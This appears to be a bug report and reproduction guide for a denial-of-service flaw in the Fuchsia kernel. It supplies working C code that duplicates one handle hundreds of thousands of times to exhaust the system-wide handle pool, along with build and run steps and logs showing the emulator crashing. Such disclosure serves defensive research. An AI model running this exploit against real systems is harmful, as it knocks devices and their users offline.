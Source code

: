 # Dos on Fuchsia

Reproducing may take you only 1 min.

## Set-up


Replace "/examples/fortune/fortune.c" with the following code.

// Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle. 

// Here I try to duplicate 512\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().

	#include <stdio.h>
	#include  <zircon/syscalls.h>
	#define  max_num  512*1024
	zx_handle_t  res_handle[max_num];
	int  main() {
		zx_handle_t  handle1;
		zx_status_t  sys_ret;
		sys_ret = zx_vmo_create(10,0,&handle1);
		if(sys_ret==ZX_ERR_INVALID_ARGS)
		{
			printf("wrong with zx_vmo_create");
		}
		else  if(sys_ret == ZX_ERR_NO_MEMORY)
		{
			printf("wrong no mem");
		}
		else
		{
			printf("syscall success");
		}
		int  i=0;
		while (i < max_num)
		{
			sys_ret = zx_handle_duplicate(handle1,ZX_RIGHT_SAME_RIGHTS,&res_handle[i]);
			if(sys_ret==ZX_ERR_NO_MEMORY)
			{
			// printf("Ddddddddos");
			}
			i++;
		}
		while (1)
		{}
		return  0;
	}
    
   Call printf(...) when handle could not be created.
   
   /zircon/kernel/lib/fbl/include/fbl/gparena.h
   

    void* Alloc(){
	...

		do{
			...
			if(...){
				if(...){
					printf("DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!"); // here!!!
					return nullptr;
				}
			}
		}while (!top_.compare_exchange_strong(top, next_top, ktl::memory_order_relaxed,
					ktl::memory_order_relaxed));
		count_.fetch_add(1, ktl::memory_order_relaxed);
		return  reinterpret_cast<void*>(top);
	}

## Run

Open four terminals. 

Terminal 1

    $ fx set workstation.qemu-x64 --cache --with //example/fortune
    $ fx build
    $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh

Terminal 2

    $ fx serve-updates

Terminal 3

    $ fx log

Terminal 1
```
$ fortune
```


## Result
Warnning in Terminal 3, then the FEMU crash.

Terminal 3
```
[00016.023134][57943][57945][klog] WARNING: WARNING: High handle count: 229377 / 229376 handles
[00016.029523][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029527][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029532][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029535][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029536][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029538][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029575][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
```
You can see that now the number of exsiting handles is 256\*1024 = 262144, or the max number of handles.

Terminal 1
```

$ ssh: Could not resolve hostname : Temporary failure in name resolution
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host

```
